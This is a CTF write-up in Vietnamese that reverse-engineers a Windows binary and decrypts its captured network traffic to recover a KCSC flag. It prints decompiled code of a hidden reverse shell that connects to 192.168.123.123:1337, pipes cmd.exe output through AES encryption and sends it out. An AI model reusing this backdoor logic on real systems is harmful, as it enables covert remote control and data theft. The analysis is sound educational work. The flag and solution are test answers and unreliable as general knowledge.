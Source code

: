 # SECRET 
- Khi mở file binary bằng IDA và phân tích hàm `main`:
```C 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  HWND ConsoleWindow; // eax
  SOCKET v4; // eax
  struct WSAData WSAData; // [esp+10h] [ebp-198h] BYREF

  ConsoleWindow = GetConsoleWindow();
  ShowWindow(ConsoleWindow, 0);
  hMutex = CreateMutexW(0, 0, L"9_5_diem");
  if ( !hMutex || WSAStartup(0x202u, &WSAData) )
    return 1;
  *(_DWORD *)&name.sa_family = 0;
  *(_DWORD *)&name.sa_data[2] = 0;
  *(_DWORD *)&name.sa_data[6] = 0;
  *(_DWORD *)&name.sa_data[10] = 0;
  name.sa_family = 2;
  *(_WORD *)name.sa_data = htons(1337u);
  *(_DWORD *)&name.sa_data[2] = inet_addr("192.168.123.123");
  v4 = socket(2, 1, 6);
  s = v4;
  if ( v4 == -1 )
  {
LABEL_4:
    WSACleanup();
    return 1;
  }
  if ( connect(v4, &name, 16) == -1 )
  {
    closesocket(s);
    goto LABEL_4;
  }
  sub_8E1983();
  ReleaseMutex(hMutex);
  return 0;
}
```
- Trước tiên chương trình tạo `MUTEX OBJECT` nên chúng ta có thể suy đoán rằng bài sẽ có chỗ sử dụng `shared resource` giữa các thread (tức là sẽ có thêm những thread mới được tạo ra)
- Tiếp đến chúng ta có thể thấy rằng chương trình đã kết nối socket đến địa chỉ `192.168.123.123` và  `PORT 1337` : 
```C 
  ..........
  *(_WORD *)name.sa_data = htons(1337u);
  *(_DWORD *)&name.sa_data[2] = inet_addr("192.168.123.123");
  ............
```
- Như vậy đã có kết nối socket thì chắc chắn sẽ có data chứa flag được truyền đi nên chúng ta sẽ tiếp tục trace vào hàm `sub_8E1983` để xem tác giả đã sử dụng socket để gửi đi những gì :
```C
char sub_8E1983()
{
  struct _STARTUPINFOW StartupInfo; // [esp+10h] [ebp-78h] BYREF
  struct _PROCESS_INFORMATION ProcessInformation; // [esp+58h] [ebp-30h] BYREF
  struct _SECURITY_ATTRIBUTES PipeAttributes; // [esp+68h] [ebp-20h] BYREF
  int CommandLine[4]; // [esp+74h] [ebp-14h] BYREF

  PipeAttributes.nLength = 12;
  PipeAttributes.bInheritHandle = 1;
  PipeAttributes.lpSecurityDescriptor = 0;
  if ( !CreatePipe(&hObject, &hWritePipe, &PipeAttributes, 0) )
    return 0;
  if ( !SetHandleInformation(hObject, 1u, 0) )
    return 0;
  if ( !CreatePipe(&hReadPipe, &dword_8F6330, &PipeAttributes, 0) )
    return 0;
  if ( !SetHandleInformation(dword_8F6330, 1u, 0) )
    return 0;
  CommandLine[0] = *(_DWORD *)L"cmd.exe";
  CommandLine[1] = *(_DWORD *)L"d.exe";
  CommandLine[2] = *(_DWORD *)L"exe";
  CommandLine[3] = *(_DWORD *)L"e";
  memset(&ProcessInformation, 0, sizeof(ProcessInformation));
  memset(&StartupInfo, 0, sizeof(StartupInfo));
  StartupInfo.dwFlags |= 0x101u;
  StartupInfo.hStdError = hWritePipe;
  StartupInfo.hStdOutput = hWritePipe;
  StartupInfo.hStdInput = hReadPipe;
  StartupInfo.cb = 68;
  if ( !CreateProcessW(0, (LPWSTR)CommandLine, 0, 0, 1, 0x8000000u, 0, 0, &StartupInfo, &ProcessInformation) )
    return 0;
  CreateThread(0, 0, StartAddress, 0, 0, 0);
  CreateThread(0, 0, sub_8E18B3, 0, 0, 0);
  WaitForSingleObject(ProcessInformation.hProcess, 0xFFFFFFFF);
  CloseHandle(ProcessInformation.hProcess);
  CloseHandle(ProcessInformation.hThread);
  return 1;
}
```
- Ở hàm `sub_8E1983` tác giả đã tạo một `pipe` và sau đó tạo một `PROCESS` con để sử dụng `pipe` này (`CreateProcessW`) 
- Process con sẽ chạy commandline bật cmd.exe và chạy d.exe , exe, ....
- Mục tiêu cần trace cuối cùng ở đây là hai hàm `StartAddress` và `sub_8E18B3` :

```C 
  CreateThread(0, 0, StartAddress, 0, 0, 0);
  CreateThread(0, 0, sub_8E18B3, 0, 0, 0);
```

## Trước tiên là function `StartAddress`: 
```C
int __stdcall StartAddress()
{
  void *reader; // ebx
  size_t v1; // ebx
  size_t v2; // esi
  int result; // eax
  const void *v4; // [esp-8h] [ebp-78h]
  DWORD *buf; // [esp+10h] [ebp-60h]
  void *i; // [esp+14h] [ebp-5Ch]
  _DWORD v7[10]; // [esp+18h] [ebp-58h] BYREF
  char v8[40]; // [esp+40h] [ebp-30h] BYREF
  DWORD NumberOfBytesRead; // [esp+68h] [ebp-8h] BYREF

  reader = sub_8E1BC5(0xFFFFu);
  for ( i = reader; ; reader = i )
  {
    memset(reader, 0, 0xFFFFu);
    result = ReadFile(hObject, reader, 0xFFFFu, &NumberOfBytesRead, 0);
    if ( !(_BYTE)result || !NumberOfBytesRead )
      break;
    qmemcpy(v7, sub_8E14F5(NumberOfBytesRead, reader, v8), sizeof(v7));
    v1 = v7[8];
    v2 = v7[8] + 37;
    buf = (DWORD *)sub_8E1BC5(v7[8] + 37);
	..............
```
- Có rất nhiều hàm nên mình sẽ chỉ phân tích một số hàm quan trọng .
- Đầu tiên chương trình sẽ đọc `StdOut` của `pipe` vừa tạo lúc trước , hiểu đơn giản là màn hình console của process được tạo ra trước đó hiện cái gì thì chương trình sẽ đọc tất : 

```C 
	........
	result = ReadFile(hObject, reader, 0xFFFFu, &NumberOfBytesRead, 0);
    if ( !(_BYTE)result || !NumberOfBytesRead )
      break;
    qmemcpy(v7, sub_8E14F5(NumberOfBytesRead, reader, v8), sizeof(v7));
    v1 = v7[8];
	.......
```
- Sau khi đọc xong, tất cả dữ liệu sẽ được đưa vào hàm `sub_8E14F5` để `encrypt` rồi coppy vào biến `v7`
- Tiếp theo biến buf sẽ nhận được những data cần gửi đi :
```C
	..........
	memset(buf, 0, v2);
    *buf = v7[0];
    buf[8] = v1;
    buf[1] = v7[1];
    v4 = (const void *)v7[9];
    buf[2] = v7[2];
    buf[3] = v7[3];
    buf[4] = v7[4];
    buf[5] = v7[5];
    buf[6] = v7[6];
    buf[7] = v7[7];
    memmove(buf + 9, v4, v1);
    if ( send(s, (const char *)buf, v1 + 36, 0) == -1 )
      return closesocket(s);
    j_j__free(buf);
    Sleep(0xAu);
  }
  return result;
}

```
### Phân tích hàm Encrypt `sub_8E14F5`: 

- Đầu vào của hàm `sub_8E14F5`  là `NumberOfBytesRead` ,`reader`, `v8`
   + `NumberOfBytesRead` : số byte
   + `reader` : số byte đã đọc được
   + `v8` : mảng rỗng 
```C
_DWORD *__usercall sub_8E14F5@<eax>(signed int number_of_byte@<edx>, const void *buf@<ecx>, _DWORD *space)
{
   .......
  i = 0;
  Time = getTime(0);
  srand(Time);
  do
  {
    *((_BYTE *)space + i + 16) = rand();
    *((_BYTE *)space + i++) = rand();
  }
  while ( i < 16 );
```
- Đoạn đầu của hàm sử dụng hàm `random` để tạo ra 32 byte đầu bất kì , sau khi trace vào các hàm bên dưới thì mình thấy có một vùng data chương trình sử dụng để trộn với `reader` và `32 byte đầu` kia và những byte đó hoàn toàn giống với `Rijndael S-box` ([S-box](https://en.wikipedia.org/wiki/Rijndael_S-box))
- Nên mình kết luận luôn đây là hàm Encrypt sử dụng `AES` với `Key` và `IV` sẽ là 32 byte random kia.
## Decrypt Data
- Đề bài còn cho chúng ta một file `pcap` để xem những data đã gửi đi nên chúng ta sẽ lấy chúng ra để decrypt 
- Key và IV sẽ là 32 byte đầu 
- Do lúc socket gửi đi , nó có gửi cả `KEY` và `IV` nên chúng ta có thể lấy được nó thông qua file `pcap`
- script mình hack được từ anh tác giả : 
```python 
from scapy.all import *
from Crypto.Cipher import AES 
from Crypto.Util.Padding import * 

pp = PcapNgReader("capture.pcapng")

for p in pp:
    if TCP in p and (p[TCP].dport == 1337 or p[TCP].sport == 1337):
        payload = raw(p[TCP].payload)
        if len(payload) < 36:
            continue
        key = payload[:16]
        iv = payload[16:32]
        size = int.from_bytes(payload[32:36], byteorder='little')
        cipher = AES.new(key, AES.MODE_CBC, iv)
        data = payload[36:36+size]
        data = cipher.decrypt(data)
        try:
            data = unpad(data,16)
        except:
            pass
        print(data.decode())
        # break
```

- FLAG : `KCSC{d0'N7_g1v3_y0u_up}`
